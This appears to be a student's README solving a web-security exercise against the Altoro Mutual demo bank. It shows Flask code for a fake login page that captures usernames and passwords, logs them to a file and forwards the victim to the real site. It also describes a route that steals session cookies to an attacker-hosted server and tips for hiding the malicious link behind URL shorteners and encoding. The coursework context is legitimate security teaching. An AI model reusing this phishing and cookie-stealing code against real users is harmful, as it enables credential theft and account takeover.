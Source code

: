 # Exercise 2 solution
This exercise is realised using Python+Flask and deployed in heroku.(The links are live.)
---
## Question 1 - Reflected XSS when an user is not logged in, stealing their login credentials.
1. Look for a place, where you can conduct a reflected XSS attack against a user who is currently not logged in.
- Design an attack which fakes the Login form to attack users that are currently not logged in. Send the login information to a server of your choice and login the user normally afterwards. (3P)
    1. The user is fed with the fake login page located at :[Login Page](https://mysterious-harbor-34550.herokuapp.com/login)
    The below code is implemented for the fake login and redirection.
    ```python
    @app.route('/login')
        def login():
            form_data='''<form id="foo" method="post" action="/handle_data">
            Username : <input type="text" name='uid' value="admin">
            Password : <input type="password" name='passw' value="">
            <input type="submit" name="submit" value="Submit">
            </form>
            '''
            return form_data
    ```
    2. Once the login data is filled and user clicks on submit, it writes the credentials on a notepad and then redirects the user to Altoro Mutual.
    The below code is implemented for writing the credentials and redirection.
    ```python
    @app.route('/handle_data', methods=['POST'])
        def handle_data():
            if request.method == 'POST':
                req = request.form
                uid = req.get('uid')
                passw = req.get('passw')
                data = 'uid: '+uid+' password: ' + ' ' + strftime("%Y-%m-%d %H:%M:%S", gmtime()) + '\n'
                file = open("/tmp/cookiedata.txt","a")
                file.write(data)
                file.close()
                data={"uid":uid,"passw":passw,"btnSubmit":"Login"}
                
                requests.post('http://demo.testfire.net/doLogin',data)
            
            return redirect('http://demo.testfire.net')
    ```
    
- How can you hide the attack code to the victim? Implement an exemplary concealment. (1P)
    When passing the attack code to the victim, the link can be concealed using any URL shortener, further to prevent user to easily recognise the script tags passed within an URL, we can also use URL encoder to conceal most of the script code in the URL.
## Reflected XSS when a user is not logged in to steal the credentials

/login - displays a form where user has to input login details, once logged in the site automatically redirects to demo.testfire.net
>/login will call /handle_data to store the parameters in a file and then redirect to Altoro Mutual

/expose - used to view all the collected cookie/login data from cookiedata.txt

Step 1: (Login Page)[https://mysterious-harbor-34550.herokuapp.com/login] for the login page\
Step 2: (Exposed Login Credentials)[https://mysterious-harbor-34550.herokuapp.com/expose] to view the stored user credentials\

---
## Reflected XSS when a user is logged in to steal the cookie

/loanapproval- this is the link that will be shared with as a man in the middle attack, once he clicks here /ilikecookies is called to write cookie data of the user in cookiedata.txt.

/expose - used to view all the collected cookie/login data from cookiedata.txt

Step 1: (Loan is now approved!)[https://mysterious-harbor-34550.herokuapp.com/loanapproval] for the login page\
Step 2: (Exposed Cookie)[https://mysterious-harbor-34550.herokuapp.com/expose] to view the stored user credentials\